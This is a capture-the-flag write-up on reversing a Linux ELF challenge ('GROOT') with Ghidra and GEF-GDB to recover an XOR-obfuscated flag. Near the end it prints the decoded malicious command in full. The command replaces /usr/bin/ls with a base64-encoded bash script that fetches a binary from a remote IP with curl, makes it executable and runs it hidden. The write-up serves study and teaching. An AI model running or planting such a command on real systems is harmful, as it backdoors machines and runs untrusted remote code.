[BinForCry] GROOT - 100 Pts.
We’re given with this file.

Checking out the file, it is an ELF file.

We did the reverse engineering on Remnux.
First off, we fired up Ghidra and decompile the ELF. After entering the main method, we noticed a function that’s consistently called.

Looking at the decompiled function, it seems to be doing an encryption machanism, albeit a basic one (just XOR). Also notice that the result is being stored on param_3 which means the RDX value. Therefore, we have to note the address of RDX before and after the function has been called.

We can open up GEF-GDB and set a break point each time the function is called and then analyze arguments and also the output once we step over the function.
First, we have to get the main address after PIE is applied. In my environment, it is 0x5555555552dc

We can then show the instructions starting from the main address


The list of breakpoints to use are:
- 0x555555555364
- 0x5555555553db
- 0x5555555554b7
There are more addresses that call that function but these are the only ones that we need.
Breaking at 0x555555555364, we mark the function arguments and we need to keep an eye on RDX register value from what we understod on the function. XOR result is being stored in there after we step over 1 instruction after the breakpoint. This will be done everytime we hit the breakpoint

After stepping over, we got the first part of the flag RC17{x0x0_. Nice!

Next important breakpoint is at 0x5555555553db. The resulting XOR operation is not interesting:

But we want to set the geteuid result to 0 on the test eax, eax otherwise the process would have stopped. That means we have to set the RAX to 0.

We go to breakpoint 0x5555555554b7 and we note the RDX address again (0x00007fffffffce40).

After stepping over, we found an interesting decoded result:

cp /usr/bin/ls /usr/bin/lls && cp /bin/ls /bin/lls && echo -n IyEvYmluL2Jhc2gKCiMgcGFydCAyIC0geDByMW5nXzFzX2x5ZgooY3VybCAtcyBodHRwOi8vMTc4LjEyOC4yMy4xNDEvMGJlOTIxOTAvYWJjIC1vIC91c3IvYmluL3gwcjFuZ18xc19seWYgJiYgY2htb2QgK3ggL3Vzci9iaW4veDByMW5nXzFzX2x5ZiAmJiAvdXNyL2Jpbi94MHIxbmdfMXNfbHlmIDI+L2Rldi9udWxsKSAmCgovdXNyL2Jpbi9sbHMgJEAK | base64 -d > /usr/bin/ls && chmod +x /usr/bin/ls;. The base64 blob is actually a bash script. It would have bricked your system if you executed this as root. And also, it contains the part 2 of the flag!

The flag for now is RC17{x0x0_x0r1ng_1s_lyf.
For the last part of the flag. we executed the whole thing as root anyway and we got this. (Of course we didn’t forget to take a snapshot of the remnux VM)

The flag has been completed: RC17{x0x0_X0r1ng_1s_lyf_thx4ex3cut1ngth1s}